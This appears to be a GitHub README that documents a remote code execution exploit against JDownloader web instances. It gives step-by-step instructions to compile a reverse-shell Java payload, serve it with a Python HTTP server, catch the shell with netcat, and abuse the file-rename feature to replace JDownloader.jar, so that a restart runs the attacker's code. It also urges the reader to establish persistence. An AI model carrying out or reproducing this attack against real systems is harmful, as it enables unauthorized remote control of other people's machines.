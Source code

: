# JDownloader-RCE
Documenting how to exploit JDownloader instances

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way.

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, which is covered by the "Click me / Mouse Over")

![](screenshots/step1.png)


# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://YOUR-IP:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2

![](screenshots/step4.png)

# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 

![](screenshots/step5.png)

# Step 6: Execute. 

**WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code.** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This has been hit-or-miss so don't rely on it. Establish persistence!!) 

![](screenshots/step6.png)

# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 
